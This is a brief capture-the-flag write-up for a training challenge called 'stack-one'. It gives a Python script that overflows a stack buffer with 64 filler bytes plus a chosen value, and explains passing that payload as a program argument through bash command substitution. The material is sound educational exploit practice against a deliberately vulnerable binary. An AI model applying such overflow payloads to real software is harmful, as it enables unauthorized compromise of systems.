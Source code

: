 ### stack-one
#### script
```python
import sys 

buffer = b'A'*64
value = 0x496c5962.to_bytes(4,'little')

sys.stdout.buffer.write(buffer+value)

```

#### analysis
The challenge is quite similar to the previous one (stack_zero). However, this one requires the exploit to be passed as an argument to the program. This means we won't be able to pipe the output of our script into the program like so 
```shell
#wrong 
python3 scripts/stack_one.py | ./stack-one 
```
Instead, we use bash **Parameter expansion** to evaluate the script in the argument to pass it through
```shell
./stack-one $(python3 scripts/stack_one.py)
```